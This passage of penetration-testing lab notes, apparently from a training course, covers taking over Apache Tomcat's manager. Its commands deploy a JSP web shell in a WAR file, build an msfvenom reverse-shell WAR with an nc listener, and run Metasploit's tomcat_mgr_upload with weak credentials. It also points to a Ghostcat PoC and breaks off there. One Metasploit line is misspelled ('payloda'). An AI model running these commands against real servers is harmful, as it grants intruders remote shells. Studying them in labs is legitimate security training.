 ```shell-session
zip -r backup.war cmd.jsp 
```

**3.** Upload the file backup.war in the section "WAR file to deploy". Then click on Deploy.

**4.** Browse to the deployed app and add to the path the file:

```
http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```



### WAR file  with msfvenom

**1.** Generate the WAR file. The payload [java/jsp_shell_reverse_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file.

```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

**2.** Start a listener in your attacking machine:

```shell-session
nc -lnvp 4443
```

**3.** Upload the file backup.war in the section "WAR file to deploy". Then click on Deploy.



## Metasploit multi/http/tomcat_mgr_upload 

```
msfconsole -q
use multi/http/tomcat_mgr_upload 
set HttpUsername tomcat
set HttpPassword root
set RHOSTS 10.129.201.58 
set RPORT 8081
set LHOST 10.10.14.147
set payloda payload/java/jsp_shell_reverse_tcp
run
```


## CVE-2020-1938 : Ghostcat

Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938). 

All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.

The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi).

Run it:
